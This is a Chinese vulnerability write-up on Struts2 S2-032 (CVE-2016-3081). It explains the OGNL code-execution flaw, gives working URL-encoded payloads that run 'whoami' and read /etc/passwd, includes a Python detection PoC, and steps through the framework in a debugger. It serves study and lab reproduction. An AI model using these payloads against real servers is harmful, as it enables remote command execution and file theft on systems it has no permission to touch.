# 目录

[前言](##前言)

[Struts简介](##Struts简介)

[漏洞复现](##漏洞复现)

[漏洞简介](###漏洞简介)

[环境搭建](###环境搭建)

[Payload](###Payload)

[POC](###POC)

[漏洞分析](##漏洞分析)

[漏洞修复](##漏洞修复)

[总结](##总结)

[参考](##参考)


## 前言

> 这是Struts系列第十一篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-032漏洞,又名CVE-2016-3081漏洞

> 在Struts2框架中,开启了动态方法调用(Dynamic Method Invocation)时,可使用method:<name>的方式来调用名字是<name>的方法,这个方法将会进行OGNL表达式计算,从而导致导致代码执行漏洞.method方法的实现还是在S2-016提到过的DefaultActionMapper类,DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法


> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-032)

#### 漏洞成因

> 在Struts2框架中,开启了动态方法调用(Dynamic Method Invocation)时,可使用method:<name>的方式来调用名字是<name>的方法,这个方法将会进行OGNL表达式计算,从而导致导致代码执行漏洞.method方法的实现还是在S2-016提到过的DefaultActionMapper类,DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法

#### 漏洞影响范围

>  Struts 2.3.20 - Struts Struts 2.3.28 (2.3.20.3和2.3.24.3除外)

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=whoami
```

#### 读取文件

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat%20/etc/passwd
```

### POC

```python
#!/usr/bin/env python3

import random
import string
import requests

class S2_032_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-032漏洞,又名CVE-2016-3081漏洞',
            'description': 'Struts2 S2-032漏洞可执行任意命令,影响范围为: Struts 2.3.20 - Struts Struts 2.3.28 (2.3.20.3和2.3.24.3除外)',
            'date': '2016-04-19',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': "keep-alive",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        self.payload = '''?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd={cmd}'''
    
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_req = requests.get(self.url + self.payload.format(cmd = 'echo ' + self.capta), headers = self.headers)
            if self.capta in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_032 = S2_032_BaseVerify('http://localhost:8080/s2_032_war_exploded/index.action')
    print(S2_032.run())
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.首先来看下S2-016漏洞中DefaultActionMapper类支持的方法罪魁祸首.可看到DefaultActionMapper类方法也支持method,所以就有了本漏洞.来看下Struts配置文件,设置Dynamic Method Invocation为True.





&emsp;&emsp;&emsp;&emsp;2.首先在lib/struts2-core-2.2.3.jar/org/apache/struts2/dispatcher/mapper/DefaultActionMapper.class第53行打断点,因为配置文件中开启了DynamicMethodInvocation.所以会满足if条件,把参数名method:及其后面的字符串赋值给ActionMapping的method属性.





&emsp;&emsp;&emsp;&emsp;3.然后在lib/struts2-core-2.2.3.jar/org/apache/struts2/dispatcher/ng/filter/StrutsPrepareAndExecuteFilter文件doFilter方法第72行打断点,接下来继续按F8,继续执行,一直到到doFilter方法第72行断点处.ActionMapping对象存储有了Action的配置信息.它会做为findActionMapping方法的结果返回给StrutsPrepareAndExecuteFilte.继续F8往下执行,在第79行F7进入executeAction方法



&emsp;&emsp;&emsp;&emsp;4.这个方法会根据ActionMapping对象的信息调用对应的Action.继续F7进入serviceAction方法



&emsp;&emsp;&emsp;&emsp;5.serviceAction方法首先把request、response、mapping对象创建一个ContextMap对象,并把OgnlValueStack put进去.然后获取mapping对象中的的namespace、name、method,获取后再和extraContext创建自定义Action的ActionProxy对象.F7进入createActionProxy方法.



&emsp;&emsp;&emsp;&emsp;6.F7继续进入createActionProxy方法



&emsp;&emsp;&emsp;&emsp;7.createActionProxy方法会新建一个StrutsActionProxy对象,F7进入这个方法


&emsp;&emsp;&emsp;&emsp;8.继续F7进入父方法中



&emsp;&emsp;&emsp;&emsp;9.DefaultActionProxy方法首先进行参数的赋值.然后调用StringEscapeUtils.escapeHtml4和StringEscapeUtils.escapeEcmaScript方法.

> escapeEcmaScript(String input) / unescapeEcmaScript(String input): 转义/反转义js脚本.

> escapeHtml4(String input) / unescapeHtml4(String input):转义/反转义html脚本.

所以
payload中不能出现有可能被转义的字符,如 < > " ' & 等.故字符串参数的传入需要使用#parameters.参数名[0]从 OgnlValueStack中获取.



&emsp;&emsp;&emsp;&emsp;10.创建好StrutsActionProxy对象后返回,并继续执行其execute()方法,F7进入execute方法.



&emsp;&emsp;&emsp;&emsp;11.F7继续进入this.invocation.invoke方法.



&emsp;&emsp;&emsp;&emsp;12.invoke方法会执行一系列的拦截器以及Action,在执行Action的地方打断点,F7进入invokeActionOnly方法.



&emsp;&emsp;&emsp;&emsp;13.继续F7进入invokeAction方法



&emsp;&emsp;&emsp;&emsp;14.在第358行可以看到对methodName进行了getValue操作,即获取methodName的值,这个值是我们传入的payload.但会拼接一个()后又获取的.所以payload后面要加一个1?#xx:#request.toString来防止报错.F7进入getValue方法.

